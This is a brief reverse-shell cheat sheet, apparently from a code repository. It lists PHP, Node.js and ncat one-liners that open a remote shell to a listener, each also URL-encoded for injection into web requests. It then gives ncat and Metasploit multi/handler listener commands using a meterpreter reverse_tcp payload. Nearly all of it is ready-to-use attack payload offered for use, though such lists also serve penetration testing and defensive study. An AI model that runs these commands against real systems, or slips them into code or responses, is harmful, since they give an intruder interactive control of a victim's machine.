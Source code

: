 # REVERSE
> PHP 
php -r '$sock=fsockopen("127.0.0.1",1337);exec("sh <&3 >&3 2>&3");'
encoded uri : php%20-r%20'$sock=fsockopen(%22127.0.0.1%22,1024);exec(%22sh%20%3C&3%20%3E&3%202%3E&3%22);'

> NODE JS
require('child_process').exec('nc -e sh 127.0.0.1 1337')
encoded uri : require('child_process').exec('nc%20-e%20sh%20127.0.0.1%201024');

> NETCAT 
ncat 127.0.0.1 1024 -e sh
encoded uri : ncat%20127.0.0.1%201024%20-e%20sh


# LISTENER
> NETCAT
$ ncat -lvnp 1024

> MSFCONSOLE
$ msfconsole -q -x "use multi/handler; set payload windows/x64/meterpreter/reverse_tcp; set lhost 127.0.0.1; set lport 1024; exploit"
